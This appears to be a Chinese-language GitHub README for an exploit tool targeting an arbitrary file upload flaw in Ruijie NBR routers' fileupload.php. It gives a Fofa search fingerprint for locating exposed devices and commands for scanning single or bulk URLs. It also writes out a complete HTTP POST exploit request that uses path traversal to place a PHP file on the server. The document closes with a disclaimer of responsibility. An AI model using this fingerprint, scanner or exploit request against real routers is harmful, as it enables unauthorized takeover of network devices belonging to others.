


# 锐捷 NBR 路由器 fileupload.php 任意文件上传

锐捷 NBR 路由器 fileupload.php文件存在任意文件上传漏洞，攻击者可利用该漏洞获取服务器权限。

## Fofa指纹

app="Ruijie-NBR路由器"

## 工具利用

python3 Ruijie-NBR_upload.py -u http://127.0.0.1:1111 单个url测试

python3 Ruijie-NBR_upload.py -f url.txt 批量检测

扫描结束后会在当前目录生成存在漏洞url的vuln.txt

poc：


## exp

```
POST /ddi/server/fileupload.php?uploadDir=../../test&name=c0nfig.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.1360.23 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Disposition: form-data; name="file"; filename="111.php"
Content-Type: image/jpeg
Content-Length: 8

qaxnb123
```



## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
